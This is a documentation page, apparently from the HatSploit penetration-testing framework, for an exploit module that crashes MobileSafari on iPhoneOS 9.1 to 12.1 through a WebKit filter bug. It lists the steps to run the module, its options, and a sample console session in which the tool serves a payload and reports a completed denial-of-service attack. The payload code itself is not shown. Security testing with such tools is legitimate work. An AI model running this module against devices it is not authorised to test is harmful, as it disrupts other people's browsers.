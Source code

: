 # `exploit/iphoneos/mobile_safari_app/webkit_filter_dos`

## Description

iPhoneOS 9.1 till 12.1 MobileSafari.app WebKit Filter DoS.

## Verification Steps

1. Start HatSploit
2. Do `use exploit/iphoneos/mobile_safari_app/webkit_filter_dos`
3. Do: `set LHOST` to your local host
4. Do: `set LPORT` to your local port
5. Do: `run`

## Options

| Option    | Default Value         | Required | Description                |
|-----------|-----------------------|----------|----------------------------|
| `LHOST`   | `TCPClient.get_local_host()` | yes      | Local host.                |
| `LPORT`   | 80                    | yes      | Local port.                |
| `FOREVER` | no                    | no       | Start http server forever. |

**LHOST**

Variable that contains local host.

**LPORT**

Variable that contains local port.

**FOREVER**

Variable that contains type of http server.

## Scenarios

```
(hsf)> use exploit/iphoneos/mobile_safari_app/webkit_filter_dos
(hsf: exploit: mobile_safari_app/webkit_filter_dos)> show options
 
Module Options
==============
 
    Option     Value           Required    Description    
    ------     -----           --------    -----------    
    LHOST      192.168.1.95    yes         Local host.    
    LPORT      80              yes         Local port.
    FOREVER    no              no          Start http server forever.
 
(hsf: exploit: mobile_safari_app/webkit_filter_dos)> run
[*] Starting http server on port 80...
[*] Serving payload on http server...
[*] Listeting for connections...
[+] Connection from 192.168.1.55!
[*] Performing WebKit Filter DoS attack...
[+] WebKit Filter DoS attack completed!
(hsf: exploit: mobile_safari_app/webkit_filter_dos)>
```
